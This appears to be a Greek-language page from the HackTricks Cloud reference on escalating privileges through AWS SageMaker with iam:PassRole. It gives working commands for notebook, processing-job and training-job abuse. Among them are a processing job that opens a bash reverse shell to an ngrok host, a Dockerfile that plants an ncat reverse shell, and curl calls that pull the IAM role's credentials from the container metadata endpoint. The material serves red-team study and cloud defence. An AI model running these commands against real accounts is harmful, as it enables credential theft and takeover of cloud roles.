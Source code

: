 # AWS - Sagemaker Privesc

## AWS - Sagemaker Privesc

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### `iam:PassRole` , `sagemaker:CreateNotebookInstance`, `sagemaker:CreatePresignedNotebookInstanceUrl`

Αρχίστε να δημιουργείτε ένα notebook με τον IAM Ρόλο που είναι συνδεδεμένος σε αυτό:
```bash
aws sagemaker create-notebook-instance --notebook-instance-name example \
--instance-type ml.t2.medium \
--role-arn arn:aws:iam::<account-id>:role/service-role/<role-name>
```
Η απάντηση θα πρέπει να περιέχει ένα πεδίο `NotebookInstanceArn`, το οποίο θα περιέχει το ARN της νεοδημιουργημένης παρουσίας σημειωματάριου. Μπορούμε στη συνέχεια να χρησιμοποιήσουμε το API `create-presigned-notebook-instance-url` για να δημιουργήσουμε μια διεύθυνση URL που μπορούμε να χρησιμοποιήσουμε για να αποκτήσουμε πρόσβαση στην παρουσία σημειωματάριου μόλις είναι έτοιμη:
```bash
aws sagemaker create-presigned-notebook-instance-url \
--notebook-instance-name <name>
```
Πλοηγηθείτε στη διεύθυνση URL με τον περιηγητή και κάντε κλικ στο \`Open JupyterLab\` στην επάνω δεξιά γωνία, στη συνέχεια, μετακινηθείτε προς τα κάτω στην καρτέλα “Launcher” και κάτω από την ενότητα “Other”, κάντε κλικ στο κουμπί “Terminal”.

Τώρα είναι δυνατή η πρόσβαση στα διαπιστευτήρια μεταδεδομένων του IAM Role.

**Πιθανές Επιπτώσεις:** Privesc στον ρόλο υπηρεσίας sagemaker που έχει καθοριστεί.

### `sagemaker:CreatePresignedNotebookInstanceUrl`

Εάν υπάρχουν Jupyter **notebooks που εκτελούνται ήδη** σε αυτό και μπορείτε να τα καταγράψετε με το `sagemaker:ListNotebookInstances` (ή να τα ανακαλύψετε με οποιονδήποτε άλλο τρόπο). Μπορείτε να **δημιουργήσετε μια διεύθυνση URL γι' αυτά, να τα αποκτήσετε πρόσβαση και να κλέψετε τα διαπιστευτήρια όπως υποδεικνύεται στην προηγούμενη τεχνική**.
```bash
aws sagemaker create-presigned-notebook-instance-url --notebook-instance-name <name>
```
**Πιθανές Επιπτώσεις:** Privesc στον ρόλο υπηρεσίας sagemaker που είναι συνημμένος.

### `sagemaker:CreateProcessingJob,iam:PassRole`

Ένας επιτιθέμενος με αυτές τις άδειες μπορεί να κάνει **το sagemaker να εκτελέσει ένα processingjob** με έναν ρόλο sagemaker συνημμένο σε αυτό. Ο επιτιθέμενος μπορεί να υποδείξει τον ορισμό του κοντέινερ που θα εκτελείται σε μια **διαχειριζόμενη από την AWS ECS instance**, και **να κλέψει τα διαπιστευτήρια του συνημμένου IAM ρόλου**.
```bash
# I uploaded a python docker image to the ECR
aws sagemaker create-processing-job \
--processing-job-name privescjob \
--processing-resources '{"ClusterConfig": {"InstanceCount": 1,"InstanceType": "ml.t3.medium","VolumeSizeInGB": 50}}' \
--app-specification "{\"ImageUri\":\"<id>.dkr.ecr.eu-west-1.amazonaws.com/python\",\"ContainerEntrypoint\":[\"sh\", \"-c\"],\"ContainerArguments\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14920 0>&1\\\"\"]}" \
--role-arn <sagemaker-arn-role>

# In my tests it took 10min to receive the shell
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" #To get the creds
```
**Πιθανές Επιπτώσεις:** Privesc στον ρόλο υπηρεσίας sagemaker που καθορίζεται.

### `sagemaker:CreateTrainingJob`, `iam:PassRole`

Ένας επιτιθέμενος με αυτές τις άδειες θα είναι σε θέση να δημιουργήσει μια εργασία εκπαίδευσης, **τρέχοντας ένα αυθαίρετο κοντέινερ** πάνω σε αυτή με έναν **συνδεδεμένο ρόλο**. Επομένως, ο επιτιθέμενος θα είναι σε θέση να κλέψει τα διαπιστευτήρια του ρόλου.

{% hint style="warning" %}
Αυτό το σενάριο είναι πιο δύσκολο να εκμεταλλευτεί από το προηγούμενο επειδή χρειάζεται να δημιουργήσετε μια εικόνα Docker που θα στείλει το rev shell ή τα creds απευθείας στον επιτιθέμενο (δεν μπορείτε να υποδείξετε μια αρχική εντολή στη ρύθμιση της εργασίας εκπαίδευσης).
```bash
# Create docker image
mkdir /tmp/rev
## Note that the trainning job is going to call an executable called "train"
## That's why I'm putting the rev shell in /bin/train
## Set the values of <YOUR-IP-OR-DOMAIN> and <YOUR-PORT>
cat > /tmp/rev/Dockerfile <<EOF
FROM ubuntu
RUN apt update && apt install -y ncat curl
RUN printf '#!/bin/bash\nncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh' > /bin/train
RUN chmod +x /bin/train
CMD ncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh
EOF

cd /tmp/rev
sudo docker build . -t reverseshell

# Upload it to ECR
sudo docker login -u AWS -p $(aws ecr get-login-password --region <region>) <id>.dkr.ecr.<region>.amazonaws.com/<repo>
sudo docker tag reverseshell:latest <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
sudo docker push <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
```
{% endhint %}
```bash
# Create trainning job with the docker image created
aws sagemaker create-training-job \
--training-job-name privescjob \
--resource-config '{"InstanceCount": 1,"InstanceType": "ml.m4.4xlarge","VolumeSizeInGB": 50}' \
--algorithm-specification '{"TrainingImage":"<account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell", "TrainingInputMode": "Pipe"}' \
--role-arn <role-arn> \
--output-data-config '{"S3OutputPath": "s3://<bucket>"}' \
--stopping-condition '{"MaxRuntimeInSeconds": 600}'

#To get the creds
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"
## Creds env var value example:/v2/credentials/proxy-f00b92a68b7de043f800bd0cca4d3f84517a19c52b3dd1a54a37c1eca040af38-customer
```
**Πιθανές Επιπτώσεις:** Privesc στον ρόλο υπηρεσίας sagemaker που καθορίζεται.

### `sagemaker:CreateHyperParameterTuningJob`, `iam:PassRole`

Ένας επιτιθέμενος με αυτές τις άδειες θα (πιθανώς) μπορεί να δημιουργήσει μια **εργασία εκπαίδευσης υπερπαραμέτρων**, **τρέχοντας ένα αυθαίρετο κοντέινερ** σε αυτήν με έναν **συνδεδεμένο ρόλο**.\
&#xNAN;_&#x49; δεν έχω εκμεταλλευτεί λόγω έλλειψης χρόνου, αλλά φαίνεται παρόμοιο με τις προηγούμενες εκμεταλλεύσεις, μη διστάσετε να στείλετε μια PR με τις λεπτομέρειες εκμετάλλευσης._

## Αναφορές

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/)

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
